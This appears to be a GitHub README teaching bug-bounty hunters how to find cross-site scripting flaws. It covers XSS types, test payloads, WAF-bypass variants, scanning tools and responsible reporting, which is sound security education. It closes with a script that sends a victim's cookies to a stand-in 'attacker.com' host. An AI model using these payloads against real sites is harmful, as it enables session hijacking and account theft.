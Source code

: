 # What is XSS (Cross-Site Scripting)? 🤔

```
  - It allows attackers to inject malicious scripts into websites.
  - These scripts then run in the browser of other users who visit that website.
  - The attacker can steal information, manipulate the website’s content, or even take control of a user’s session.
  - Medium Risk ( low impact + high probability = medium risk )
```

# 🎯 Why is XSS Dangerous?
```
 - Steal cookies and session tokens (can take over user accounts). / Keylogging
 - Redirect users to malicious websites. / Phishing / URL Redirection
 - Modify the website’s content.
 - Spread malware.
```


# 📋 Types of XSS:
```
Stored XSS (Persistent):
	- Malicious code is saved on the website’s server (e.g., in comments or profiles).
	- Example: An attacker writes harmful JavaScript in a comment box, and every visitor sees the harmful script.

Reflected XSS:
    - The malicious script is included in a URL or form input.
    - Example: An attacker sends a link with malicious code, and if the victim clicks it, the script runs.

DOM-based XSS:
    - Happens when the client-side script processes untrusted data.
    - Example: A website’s JavaScript dynamically updates the page using URL parameters without validation.
```

# 🔎 How to Hunt for XSS (Cross-Site Scripting)?

## 🛠 Steps to Hunt for XSS:

### 📌 Step 1: Identify User Input Fields
```
Look for places where a website accepts user input and displays it back. These can include:
    - Search boxes
    - Comment sections
    - Login forms
    - URL parameters (GET requests)
    - Cookies and headers
    - File upload functionality
```

### 📌 Step 2: Test for Reflected XSS (Quick Wins)
## Reflected XSS occurs when a script is injected into a URL or input field and gets reflected back immediately.

### ✅ Payloads to Try:
#####  Basic Payloads:
```
<script>alert('XSS');</script>
```

```
<img src=x onerror=alert('XSS')>
```
```
<svg onload=alert('XSS')>
```

### 2. In URL Parameters:
````
Try injecting payloads into URL parameters.

Example:
   php
       - https://example.com/search?query=<script>alert('XSS')</script>
````

### 3.In Input Fields:
```
Enter the payload in form fields, such as a login form, search box, or feedback form.
```

### 📌 Step 3: Test for Stored XSS (Persistent XSS)
## Stored XSS occurs when your malicious input is saved on the server and shown to other users.

### ✅ Places to Check:
```
 - Comment sections
 - Profile fields
 - Message boards
 - File uploads (malicious scripts inside files)
```

### 🚩 Steps:
```
Post a comment like this: <script>alert('Stored XSS');</script> 
  - Refresh the page and see if the script runs for you or other users. 
```


### 📌 Step 4: Test for DOM-Based XSS

## DOM-based XSS happens when the website’s JavaScript manipulates the DOM using user input without proper validation.

### ✅ Payloads to Try:
```
Enter this in the URL:
  https://example.com/#<script>alert('DOM XSS');</script>
  Or test in the input fields:  <input type="text" onfocus="alert('XSS')">
```
### 🚩 Look for JavaScript Functions
```
Check if the website uses functions like innerHTML, document.write(), or eval().
```



### 📌 Step 5: Use XSS Payloads Lists
## Use pre-built XSS payload lists to try various injections.
### 🔗 Payloads All The Things (GitHub):

```
 https://github.com/swisskyrepo/PayloadsAllTheThings
```

### 📌 Step 6: Use XSS Hunting Tools
#### 🧰 1. Burp Suite (Most Popular)
```
Intercept requests and modify user input to inject XSS payloads.
Use Burp Scanner to automate XSS checks.
```
#### 🧰 2. OWASP ZAP (Free and Open Source)
```
Automated scanner for finding XSS and other vulnerabilities.
```
#### 🧰 3. XSStrike
```
A dedicated XSS tool that intelligently finds and exploits XSS vulnerabilities.
   - git clone https://github.com/s0md3v/XSStrike
   - python3 xsstrike.py -u https://example.com
```
#### 🧰 4. XSS Hunter (Advanced)
```
   - Use XSS Hunter to find blind XSS vulnerabilities.
   - It provides a custom tracking domain to catch XSS that doesn't show immediate output.
```
### 📌 Step 7: Bypass Filters (WAF/Firewalls)
```
Some websites may block basic payloads. Try bypass techniques:
 - Bypass Tags:
        <<script>alert('XSS');</script>
 - Using Unicode Encoding:
        <scrİpt>alert('XSS')</scrİpt>
 - Using Obfuscation:
        <img src=x onerror='javasc'+'ript:alert("XSS")'>
 - Using Event Handlers:
        <input type="text" onfocus="alert('XSS')">
 ```
### 📌 Step 8: Report XSS Vulnerabilities
```
If you find an XSS vulnerability, report it responsibly to the website owner or use bug bounty platforms like:
HackerOne (https://hackerone.com)
Bugcrowd (https://bugcrowd.com)
Intigriti (https://www.intigriti.com)
```
## 🚩 Signs of a Successful XSS:
```
You see an alert box.
You can steal cookies using:
<script>
    fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```
